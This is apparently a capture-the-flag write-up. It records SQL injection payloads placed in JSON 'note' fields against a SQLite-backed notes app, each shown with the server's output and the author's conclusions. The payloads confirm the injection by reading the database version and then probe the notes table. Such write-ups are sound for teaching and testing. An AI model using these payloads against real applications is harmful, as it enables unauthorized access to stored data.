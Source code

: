 In this document you can explore all the payloads used during the challenge in a more readable form.

> **Note!** Long lines of floors that were used for formatting purposes have been replaced with `\n` for better readability. During the original challenge this escape character didn't work properly, so I had to go for this less convenient solution. Other than that other slight modifications may have been made to make the document even more readable. You can access the original, unchanged payloads in the `payloads` subdirectory.

### `sqli_test.json`
```json
{
  "2000": {
    "encrypted": 0,
    "note": "' + (SELECT sqlite_version()) + '",
    "title": "Injection Test"
  }
}
```
#### Output
```
3.4
```
#### Conclusions
We receive the version of the SQLite database, which means that the injection was successful and the app itself is vulnerable.

### `note_access.json`
```json
{
  "2001": {
    "encrypted": 0,
    "note": "' + (SELECT * FROM notes) + '",
    "title": "Notes"
  }
}
```
#### Output
```
Internal Server Error
The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.
```
#### Conclusions
Directly accessing the `notes` table is not possible, but we can still look for different ways of retrieving the data.

### `first_note.json`
```json
{
  "2002": {
    "encrypted": 0,
    "note": "' + (SELECT id FROM notes) + '",
    "title": "First note ID?"
  }
}
```
#### Output
```
714
```
#### Conclusions
- We accessed the first note's ID, which means that we can overall access the `notes` table.